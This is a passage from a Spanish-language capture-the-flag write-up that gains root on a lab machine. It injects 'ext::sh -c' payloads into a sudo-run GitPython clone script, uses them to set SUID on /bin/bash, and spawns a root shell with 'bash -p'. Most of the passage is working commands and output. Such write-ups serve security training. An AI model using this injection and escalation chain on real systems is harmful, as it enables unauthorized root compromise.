  File "/usr/local/lib/python3.10/dist-packages/git/cmd.py", line 559, in wait
    raise GitCommandError(remove_password_if_present(self.args), status, errstr)
git.exc.GitCommandError: Cmd('git') failed due to: exit code(128)
  cmdline: git clone -v -c protocol.ext.allow=always ext::sh -c touch% /tmp/pwned new_changes
  stderr: 'Cloning into 'new_changes'...
fatal: Could not read from remote repository.

Please make sure you have the correct access rights
and the repository exists.
'
prod@editorial:~$ ls -l /tmp/pwned 
-rw-r--r-- 1 root root 0 Feb 21 16:19 /tmp/pwned
```

Por lo tanto, realizaremos el siguiente script en Bash que lo que realizará es proporcionar permisos de `SUID`al binario `/bin/bash`. Creamos el archivo, le damos los permisos de ejecución correspondientes.

```bash
prod@editorial:/tmp$ cat exploit.sh 
#!/bin/bash

chmod u+s /bin/bash
prod@editorial:/tmp$ chmod +x exploit.sh 
prod@editorial:/tmp$ ls -l exploit.sh 
-rwxrwxr-x 1 prod prod 33 Feb 21 16:21 exploit.sh
```

Verificamos que antes de realizar la ejecución de la vulnerabilidad, el binario `/bin/bash`no dispone de permisos de `SUID`. Una vez verificado, realizamos la ejecución del script inyectándole nuestro payload malicioso `'ext::sh -c /tmp/exploit.sh'` para que ejecute el script que hemos creado en el punto anterior.

Al ejecutar el script, verificamos que el binario `/bin/bash` dispone de permisos de `SUID`, con lo cual, a través del parámetro `-p` podemos convertirnos en el propietario del binario que en este caso es `root`.

Comprobamos el acceso como el usuario **`root`**&#x79; la visualización de la flag **root.txt**.

```bash
prod@editorial:/tmp$ ls -l /bin/bash
-rwxr-xr-x 1 root root 1396520 Mar 14  2024 /bin/bash

prod@editorial:/tmp$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c /tmp/exploit.sh'
Traceback (most recent call last):
  File "/opt/internal_apps/clone_changes/clone_prod_change.py", line 12, in <module>
    r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1275, in clone_from
    return cls._clone(git, url, to_path, GitCmdObjectDB, progress, multi_options, **kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1194, in _clone
    finalize_process(proc, stderr=stderr)
  File "/usr/local/lib/python3.10/dist-packages/git/util.py", line 419, in finalize_process
    proc.wait(**kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/cmd.py", line 559, in wait
    raise GitCommandError(remove_password_if_present(self.args), status, errstr)
git.exc.GitCommandError: Cmd('git') failed due to: exit code(128)
  cmdline: git clone -v -c protocol.ext.allow=always ext::sh -c /tmp/exploit.sh new_changes
  stderr: 'Cloning into 'new_changes'...
fatal: Could not read from remote repository.

Please make sure you have the correct access rights
and the repository exists.
'

prod@editorial:/tmp$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1396520 Mar 14  2024 /bin/bash

prod@editorial:/tmp$ bash -p
bash-5.1# whoami
root
bash-5.1# cat /root/root.txt
aaec01***************************
```
